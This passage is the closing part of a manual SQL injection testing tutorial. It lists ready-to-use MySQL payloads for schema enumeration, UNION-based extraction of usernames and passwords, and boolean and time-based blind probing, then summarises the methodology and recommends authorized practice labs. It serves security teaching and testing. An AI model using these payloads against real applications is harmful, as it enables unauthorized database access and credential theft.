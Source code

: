 ### Schema Enumeration (MySQL):
```sql
-- List all tables:
' UNION SELECT table_schema,table_name,3 FROM information_schema.tables --+

-- List columns in 'users' table:
' UNION SELECT table_name,column_name,data_type FROM information_schema.columns WHERE table_name='users' --+
```

### Data Extraction (single printable column):
```sql
' UNION SELECT CONCAT(username,':',password),NULL,NULL FROM users --+
```

### Boolean Blind Probes:
```sql
' AND 1=1 --+
' AND 1=2 --+
' AND LENGTH(database())=8 --+
' AND ASCII(SUBSTRING(database(),1,1))>77 --+
```

### Time-Based Probes (MySQL):
```sql
' AND SLEEP(5) --+
' AND IF(LENGTH(database())=8,SLEEP(5),0) --+
' AND IF(ASCII(SUBSTRING(database(),1,1))>77,SLEEP(5),0) --+
```

***

## Summary

This guide provides a systematic, step-by-step methodology for manual SQL injection testing. Start by establishing baselines (§1-2), detect the context (§3), choose your attack method based on application behavior (§4), then execute Union (§5), Error (§6), Boolean blind (§7), or Time-based blind (§8) techniques. Always test only authorized systems and document your findings thoroughly (§13).[4][7][2][3][1]

**Key takeaways:**
- **Methodology matters:** Systematic testing beats random payload throwing
- **Context is critical:** Always detect quote style and comment syntax first
- **Choose the right technique:** Union when data displays, blind when it doesn't
- **Document everything:** Your notes are proof and enable reproduction

Practice these techniques in legal environments like HackTheBox, TryHackMe, or PortSwigger Academy before attempting real-world assessments.[7][1]
